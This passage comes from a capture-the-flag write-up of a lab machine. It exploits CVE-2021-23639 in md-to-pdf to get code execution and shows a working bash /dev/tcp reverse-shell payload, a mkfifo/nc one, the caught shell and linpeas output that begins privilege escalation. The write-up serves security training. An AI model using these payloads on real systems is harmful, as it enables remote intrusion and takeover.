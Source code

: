 There is an md-to-pdf function in the backup, and we can see this on the web app too:
![noterexport](https://cybersec.deadandbeef.com/images/noterexport.png)

Looking for exploits in md-to-pdf, we see a poc script for CVE-2021-23639:
![noterpoc](https://th3hat3d.github.io/img/noterpoc.png)

There is an error in the poc, "jsn" should be "js\\n". Since we can export directly from the cloud, we can host the poc and have it downloaded by the web app. My payload:
```
---js\n((require("child_process")).execSync("bash -c 'bash -i >& /dev/tcp/10.10.16.14/1337 0>&1'"))\n---RCE
```

After we export from cloud on the web app, we look at nc:
```
thehated@debian:~$ nc -lnvp 1337  
listening on [any] 1337 ...  
connect to [10.10.16.14] from (UNKNOWN) [10.10.11.160] 50624  
/bin/bash: 1"))\n---RCE: ambiguous redirect
```

The problem with the payload is the ambigious redirects that it has, as indicated by the error message. A reverse shell better suited for this would be the classic mkfifo shell, so we'll try that:
```
---js\n((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.14 1337 >/tmp/f"))\n---RCE
```

And at nc, it works:
```
listening on [any] 1337 ...  
connect to [10.10.16.14] from (UNKNOWN) [10.10.11.160] 50710  
sh: 0: can't access tty; job control turned off  
$
```

And we can grab user.txt here too:
```
svc@noter:~$ ls  
app  user.txt  
svc@noter:~$
```
**Privilege Escalation: svc to root**

Running, linpeas, we see something dangerous:
```
╔══════════╣ MySQL                                                                                                                                                                 
mysql  Ver 15.1 Distrib 10.3.32-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2                                                                                          
MySQL user: root                                                                                                                                                                   
                                                                                                                                                                                  
═╣ MySQL connection using default root/root ........... No                                                                                                                         
═╣ MySQL connection using root/toor ................... No                                                                                                                         
═╣ MySQL connection using root/NOPASS ................. No                                                                                                                         
                                                                                                                                                                                  
╔══════════╣ Searching mysql credentials and exec                                                                                                                                  
From '/etc/mysql/mariadb.conf.d/50-server.cnf' Mysql user: user                    = root
```
